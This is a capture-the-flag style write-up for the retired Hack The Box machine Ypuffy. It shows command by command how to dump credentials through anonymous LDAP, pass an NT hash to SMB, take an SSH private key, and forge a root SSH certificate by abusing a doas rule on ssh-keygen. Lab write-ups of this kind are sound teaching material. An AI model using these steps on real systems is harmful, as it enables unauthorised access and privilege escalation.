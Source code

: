 # Ypuffy

This is the write-up for the box Ypuffy that got retired at the 9th February 2019.
My IP address was 10.10.14.8 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.107    ypuffy.htb
```

## Enumeration

Starting with a Nmap scan:

```markdown
nmap -sC -sV -o nmap/ypuffy.nmap 10.10.10.107
```

```markdown
| ssh-hostkey:
|   2048 2e:19:e6:af:1b:a7:b0:e8:07:2a:2b:11:5d:7b:c6:04 (RSA)
|   256 dd:0f:6a:2a:53:ee:19:50:d9:e5:e7:81:04:8d:91:b6 (ECDSA)
|_  256 21:9e:db:bd:e1:78:4d:72:b0:ea:b4:97:fb:7f:af:91 (ED25519)
80/tcp  open  http        OpenBSD httpd
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: YPUFFY)
389/tcp open  ldap        (Anonymous bind OK)
445/tcp open  netbios-ssn Samba smbd 4.7.6 (workgroup: YPUFFY)
Service Info: Host: YPUFFY
```

## Checking HTTP (Port 80)

The web page responds with the HTTP message _"The connection was reset"_, which is unexpected as Nmap was able to identify the operating system out of it.
After analyzing what Nmap does differently than the browser with **Wireshark**, it becomes clear that Nmap sends different requests to the web server.
A request that is not a valid HTTP request, will make the web server respond with an HTTP code _400 Bad Request_ and that is how Nmap found out the about the server response.

As it is not possible to send legitimate HTTP requests to the web server, this cannot be further abused.

## Checking LDAP (Port 389)

The LDAP service can be enumerated with **ldapsearch** as anonymous binding is allowed:
```markdown
ldapsearch -x -h 10.10.10.107
```

It shows a response back with the message that "no such object" exists. That is because, we did not specify the _Base Distinguished Name_ that is necessary to get information from LDAP.
```markdown
ldapsearch -x -h 10.10.10.107 -s base namingcontexts
```
```markdown
dn: namingContexts: dc=hackthebox,dc=htb
```

This is the _Base DN_ and now the sub-directories can be enumerated:
```markdown
ldapsearch -x -h 10.10.10.107 -s sub -b 'dc=hackthebox,dc=htb'
```
```markdown
(...)

# bob8791, passwd, hackthebox.htb
dn: uid=bob8791,ou=passwd,dc=hackthebox,dc=htb
uid: bob8791
cn: Bob
objectClass: account
objectClass: posixAccount
objectClass: top
userPassword:: e0JTREFVVEh9Ym9iODc5MQ==
uidNumber: 5001
gidNumber: 5001
gecos: Bob
homeDirectory: /home/bob8791
loginShell: /bin/ksh

# alice1978, passwd, hackthebox.htb
dn: uid=alice1978,ou=passwd,dc=hackthebox,dc=htb
uid: alice1978
cn: Alice
objectClass: account
objectClass: posixAccount
objectClass: top
objectClass: sambaSamAccount
userPassword:: e0JTREFVVEh9YWxpY2UxOTc4
uidNumber: 5000
gidNumber: 5000
gecos: Alice
homeDirectory: /home/alice1978
loginShell: /bin/ksh
sambaSID: S-1-5-21-3933741069-3307154301-3557023464-1001
displayName: Alice
sambaAcctFlags: [U          ]
sambaPasswordHistory: 00000000000000000000000000000000000000000000000000000000
sambaNTPassword: 0B186E661BBDBDCF6047784DE8B9FD8B
sambaPwdLastSet: 1532916644

(...)

# bob8791, group, hackthebox.htb
dn: cn=bob8791,ou=group,dc=hackthebox,dc=htb
objectClass: posixGroup
objectClass: top
cn: bob8791
userPassword:: e2NyeXB0fSo=
gidNumber: 5001

# alice1978, group, hackthebox.htb
dn: cn=alice1978,ou=group,dc=hackthebox,dc=htb
objectClass: posixGroup
objectClass: top
cn: alice1978
userPassword:: e2NyeXB0fSo=
gidNumber: 5000

(...)
```

> This whole process can also be done with Nmap scripts automatically:

```markdown
nmap -p 389 --script ldap-search -Pn 10.10.10.107
```

Summarizing the information in here:
- Two usernames are found:
  - _bob8791_
  - _alice1978_

- Base64-encoded strings decoding:

```markdown
echo e2NyeXB0fSo= | base64 -d

# Output
{crypt}*
```
```markdown
echo e0JTREFVVEh9YWxpY2UxOTc4 | base64 -d

# Output
{BSDAUTH}alice1978}
```
```markdown
echo e0JTREFVVEh9Ym9iODc5MQ== | base64 -d

# Output
{BSDAUTH}bob8791
```

- NTLM hash of _alice1978_:
  - sambaNTPassword: 0B186E661BBDBDCF6047784DE8B9FD8B

Testing if the NT password of _alice1978_ is valid with a **Pass-The-Hash** attack on the SMB share:
```markdown
smbmap -u alice1978 -p '0B186E661BBDBDCF6047784DE8B9FD8B:0B186E661BBDBDCF6047784DE8B9FD8B' -H 10.10.10.107
```

It is successful and shows the directories that can be accessed with this account.

## Checking SMB (Port 445)

The credentials of _alice1978_ work and can be used to get information on the SMB shares:
```markdown
Disk        Permissions     Comment
----        -----------     -------
alice       READ, WRITE     Alice's Windows Directory
IPC$        NO ACCESS       IPC Service (Samba Server)
```

There is one directory with read-write access and with the `-R` parameter of **SMBmap** the contents can be displayed.
It has one file called _my_private_key.ppk_:
```markdown
smbmap -u alice1978 -p '0B186E661BBDBDCF6047784DE8B9FD8B:0B186E661BBDBDCF6047784DE8B9FD8B' -H 10.10.10.107 --download alice/my_private_key.ppk
```

The beginning of the file reveals that it is a **PuTTY** user key file without encryption:
```markdown
PuTTY-User-Key-File-2: ssh-rsa
Encryption: none
Comment: rsa-key-20180716
(...)
```

It can be either used with **PuTTY** on Windows or converted into a regular SSH key with the **Putty-tools** on Linux:
```markdown
puttygen 10.10.10.107-alice_my_private_key.ppk -O private-openssh -o alice.pem
```

Using the SSH key to log into the box:
```markdown
ssh -i alice.pem alice1978@10.10.10.107
```

## Privilege Escalation

A command like `sudo` does exist in **OpenBSD** and is called `doas`. The configuration for that is found in _/etc/doas.conf_:
```markdown
permit nopass alice1978 as userca cmd /usr/bin/ssh-keygen
```

This says, that _alice_ is able to run the command `ssh-keygen` as _userca_ without a password, but this binary has no known bypasses to do something malicious.

When looking at the SSH configuration in _/etc/ssh/sshd_config_ there are some unusual lines:
```markdown
(...)
AuthorizedKeysCommand /usr/local/bin/curl http://127.0.0.1/sshauth?type=keys&username=%u

TrustedUserCAKeys /home/userca/ca.pub
AuthorizedPrincipalsCommand /usr/local/bin/curl http://127.0.0.1/sshauth?type=principals&username=%u
```

Lets execute these commands and replace the variable with all usernames:
```markdown
/usr/local/bin/curl 'http://127.0.0.1/sshauth?type=keys&username=alice1978'

/usr/local/bin/curl 'http://127.0.0.1/sshauth?type=keys&username=root'
```

This outputs a public SSH key when using _alice1978_ as the username and nothing when using root or any other user.

```markdown
/usr/local/bin/curl 'http://127.0.0.1/sshauth?type=principals&username=alice1978'

/usr/local/bin/curl 'http://127.0.0.1/sshauth?type=principals&username=root'
```

This outputs the usernames of the users, but when executing it with root, it displays something else:
> 3m3rgencyB4ckd00r

As this SSH service is configured as an **SSH Certificate Authorities** and _alice1978_ is allowed to sign SSH keys as _userca_, this is the passphrase that is needed to sign a certificate for root.

Creating certificate for root:
```markdown
ssh-keygen -f root
```

Signing the certificate:
```markdown
doas -u userca /usr/bin/ssh-keygen -s /home/userca/ca -n 3m3rgencyB4ckd00r -I LabelName root
```

Now the certificate can be used to change to root!
```markdown
ssh -i root root@localhost
```
